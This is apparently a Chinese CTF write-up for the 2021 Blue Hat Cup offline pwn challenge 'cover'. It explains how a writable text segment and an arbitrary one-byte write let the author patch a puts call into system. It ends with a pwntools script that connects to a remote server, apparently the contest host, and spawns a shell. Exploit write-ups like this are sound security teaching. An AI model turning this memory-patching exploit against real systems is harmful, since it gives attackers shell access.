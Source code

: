 ```yaml
---
layout: article
pageview: true
title: 蓝帽杯2021线下Pwn题WP
author: Ch4rc0al
#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## cover

>     Arch:     i386-32-little
>     RELRO:    Partial RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x8048000)



线下唯一做出来的题

> mprotect(&dword_8048000, 0x8888u, 7);

开头将源程序的0x8048000+0x8888的部分的权限改为了**可读可写可执行**

main 函数内容

```c
buf_1 = 0;
buf_2 = 0;
printf("Try use a bullet to pwn this%s\n", (const char *)&buf_1);
read(0, &buf_1, 5u);
if ( (int)buf_1 > (int)"ou launch the bullet, and... What's your name?%c\n" )
{
  printf("%p is too big...\n", buf_1);
  exit(0);
}
*buf_1 = buf_2;
printf("OK,you launch the bullet, and... What's your name?%c\n", SHIBYTE(v5));
read(0, &buf_1, 0xAu);
puts((const char *)&buf_1);
```

其中`(int)"ou launch the bullet, and... What's your name?%c\n"`的地址为0x8048888，程序会在buf_1输入一个地址，并且将buf_2的内容写入到buf_1地址对应的内存中。

由于是32位程序，我们可以溢出buf_1使buf_2的内容被修改。

由于0x8048000-0x8048888之间的内容包括`text`段，所以我们可以修改程序的`text`段来达到修改程序执行流的效果，我们可以将调用`puts`的内容改为调用`system`来运行`system("/bin/sh")`

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
sh=remote('118.190.62.234',12435)
#sh=process('./pwn')
#08040000-08048888
p1=p32(0x08048792)
print p1
sh.sendafter('Try use a bullet to pwn this\n',p1+p8(0x4a))
sh.sendafter("OK,you launch the bullet, and... What's your name?",'/bin/sh')
sh.interactive()

```



